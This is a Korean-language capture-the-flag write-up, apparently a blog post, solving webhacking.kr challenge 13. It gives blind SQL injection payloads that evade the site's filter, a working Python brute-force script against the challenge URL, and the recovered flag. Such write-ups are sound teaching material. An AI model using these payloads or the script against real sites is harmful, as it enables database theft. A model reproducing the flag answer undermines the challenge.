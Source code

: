 ```yaml
---
layout: post
title: ! "[Webhacking.kr] 13"
categories: [Webhacking.kr]
excerpt_separator: <!--more-->
comments: true
share: true
tags:
  - MitNy
  - webhacking.kr
  - Write-up
---
```


webhacking.kr의 최고점(1000) 문제인 13번을 풀어보도록 하겠습니다.

<!--more-->

![]({{ site.baseurl }}/images/mitny/webhackingkr/13.png)

13번 문제는 친절하게도 HINT가 있다. `select flag from prob13password` 로, 컬럼명과 테이블명을 알려준다.
당연하게도 그대로 입력하면 `no hack`이 뜬다!

![]({{ site.baseurl }}/images/mitny/webhackingkr/13_1.png)

1을 입력했을 경우, result : 1 과 같이 테이블처럼 보이는 것이 뜬다.

![]({{ site.baseurl }}/images/mitny/webhackingkr/13_13.png)

확인 결과 출력되는 것은 result : 1, result : 0, no hack 세 개뿐인 것 같다.
왠지 결과값의 True or False로 확인하는 Blind SQL Injection의 냄새가 난다 ㅎㅎ

flag 컬럼의 row 수를 구하기 위해 아래와 같은 쿼리를 입력한다.

`?no=if((select(count(flag))from(prob13password))in(숫자),1,2)`

prob13password 테이블의 flag 컬럼의 row 수가 in 안의 숫자와 일치하면 no=1, 아니면 no=2가 된다.

![]({{ site.baseurl }}/images/mitny/webhackingkr/13_count1.png)
![]({{ site.baseurl }}/images/mitny/webhackingkr/13_count2.png)

다른 숫자도 넣어봤을 때 no=2일 때만 result가 참이었으므로 flag 컬럼의 row는 2개인 것을 확인할 수 있다.
데이터가 많지 않으므로 SQL의 min,max 함수를 사용해 데이터들의 최소, 최대 길이를 구할 것이다.
SQL 공부도 할겸 서버에서 직접 테스트 해봤다.

![]({{ site.baseurl }}/images/mitny/webhackingkr/13_minmax.png)

문제 풀이를 위해 기존에 쓰던 코드를 조금 변형해서 짰다.
```py
# -*- coding : UTF-8 -*-
from requests import get
import string
from time import sleep

url = "http://webhacking.kr/challenge/web/web-10/"
cookies = dict(PHPSESSID="1f70714d3b9c01e58b7a5c6c6c1a08f2")
special_strings = "~!@#$%^&*()+-_{}[]<>"
alpha = string.ascii_letters+string.digits+special_strings
result = ""

ascii_list = []
for i in range(21,126):
        ascii_list.append(chr(i))

for i in range(1,50):
    parameter = "?no=if((select(max(length(flag)))from(prob13password))in("+str(i)+"),1,2)"
    new_url = url + parameter
    r = get(new_url, cookies=cookies)

    if r.text.find("<tr><td>result</td></tr><tr><td>1</td></tr>") > 0:
        length = i + 1
        print("Max data length is "+str(i))
        break

for i in range(1, length):
        for a in string.printable:
                parameter = "?no=(substr((select%0amin(flag)%0afrom%0aprob13password)," + str(i) + ",1)in(" + hex(ord(a)) + "))"
                new_url = url + parameter
                r = get(new_url, cookies=cookies)

                if r.text.find("<td>1</td>") > 0:
                        print(str(i) + " -> "+a)
                        result += a
                        break

                if i == length:
                        print("\npassword is "+result)
                        print("\n")
```

max 데이터의 길이를 구하고, 길이를 구할 때 사용했던 쿼리를 조금 바꿔서  substr을 추가해주었다.
`(substr((select%0amin(flag)%0afrom%0aprob13password),1,1)in(0x66))`

이번 쿼리를 짜면서 헷갈리고 어려웠던 부분은 min과 hex의 사용이었다.
분명 Auth flag는 max 데이터일텐데 왜 select min(flag)를 하며, in(hex)를 사용하는가였다.
hex값과 똑같은 문자를 넣으면 거짓이 떴다.

다른 분들의 풀이를 참고해도 설명이 다 달라서 헷갈린다..ㅎㅎ 이 부분은 더 공부를 해봐야 할 것 같다.

![]({{ site.baseurl }}/images/mitny/webhackingkr/13_flag.png)

여기서 나온 `challenge13luckclear` 를 Auth 부분에 입력하면 문제가 풀린다.

![]({{ site.baseurl }}/images/mitny/webhackingkr/13_clear.png)


